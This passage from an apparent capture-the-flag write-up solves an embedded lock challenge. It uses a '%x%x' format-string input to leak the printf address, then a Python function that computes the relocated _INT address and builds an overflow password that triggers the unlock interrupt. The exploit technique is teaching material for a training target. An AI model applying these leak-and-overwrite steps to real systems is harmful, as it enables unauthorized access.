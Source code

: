 * address of `printf` for now is 0x8c5c

So, this is the address of `_INT`: 0x8dde
* 0x8c5c + (0x48ec - 0x476a) = 0x8dde

Therefore, all that remains is to insert the following input as pasword: `0000000000000000 de8d 0000 7f00`

<img src="./14.5.png" width="80%"></img>

Drop the mic.


## The cracking input (as bytes)
```
25782578
```
Extract the `printf` address after the first input, and run this python code to generate the second input:

```python
def generate_malicious_input(curr_printf):
    original__INT = 0x48ec
    original_printf = 0x476a
    curr__INT = curr_printf + (original__INT - original_printf)
 
    # remove the '0x'
    curr__INT = hex(curr__INT)[2:]
 
    # remember the little endian...
    curr__INT = curr__INT[2:] + curr__INT[:2]
 
    return '00' * 0x8 + ' ' + curr__INT + ' 0000 7f00'

generate_malicious_input(int(input("\nEnter printf address: (0x____)\n"), 16))
```
